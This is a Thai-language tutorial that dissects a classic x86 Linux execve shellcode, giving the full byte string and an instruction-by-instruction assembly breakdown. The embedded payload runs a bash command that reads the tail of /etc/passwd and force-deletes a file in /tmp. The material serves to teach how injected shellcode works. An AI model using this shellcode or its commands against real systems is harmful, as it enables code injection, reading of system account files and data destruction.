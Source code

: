 # การวิเคราะห์ Shellcode แบบละเอียด

## 1. โครงสร้างภาพรวม

```python
shellcode = (
   # Machine Code Section (Assembly Instructions)
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   
   # String Data Section
   "/bin/bash*"
   "-c*"
   "/bin/ls -l; echo Hello 32; /bin/tail -n 2 /etc/passwd; /bin/rm -f /tmp/test     *"
   
   # Pointer Placeholders (จะถูกแทนที่ในขณะ runtime)
   "AAAA"   # argv[0] pointer
   "BBBB"   # argv[1] pointer  
   "CCCC"   # argv[2] pointer
   "DDDD"   # argv[3] pointer (NULL)
   "XXXX"
)
```

## 2. การวิเคราะห์ Machine Code (Assembly)

### ส่วนที่ 1: Jump และ Call
```assembly
\xeb\x29     # jmp +0x29 (กระโดดไป 41 bytes)
             # ไปที่ instruction ที่เรียก call
             
\xe8\xd2\xff\xff\xff  # call -0x2e (เรียกกลับมา)
                      # push return address ลง stack แล้วกระโดดกลับมา
```
**หลักการ**: ใช้เทคนิค "call/pop" เพื่อหาที่อยู่ของสตริงในหน่วยความจำ

### ส่วนที่ 2: Setup และ String Processing
```assembly
\x5b         # pop %ebx (ได้ address ของสตริงมาใน ebx)
\x31\xc0     # xor %eax,%eax (clear eax = 0)

# ใส่ null terminators ที่ตำแหน่ง * 
\x88\x43\x09 # mov %al,0x9(%ebx)  # "/bin/bash" + 9 = ตำแหน่งของ *
\x88\x43\x0c # mov %al,0xc(%ebx)  # "-c" + 2 = ตำแหน่งของ *
\x88\x43\x47 # mov %al,0x47(%ebx) # คำสั่ง + n = ตำแหน่งของ *
```

### ส่วนที่ 3: สร้าง Argument Array
```assembly
# สร้าง argv array ใน memory
\x89\x5b\x48 # mov %ebx,0x48(%ebx) # argv[0] = pointer to "/bin/bash"
\x8d\x4b\x0a # lea 0xa(%ebx),%ecx  # ecx = pointer to "-c"  
\x89\x4b\x4c # mov %ecx,0x4c(%ebx) # argv[1] = pointer to "-c"
\x8d\x4b\x0d # lea 0xd(%ebx),%ecx  # ecx = pointer to command
\x89\x4b\x50 # mov %ecx,0x50(%ebx) # argv[2] = pointer to command
\x89\x43\x54 # mov %eax,0x54(%ebx) # argv[3] = NULL (eax = 0)
```
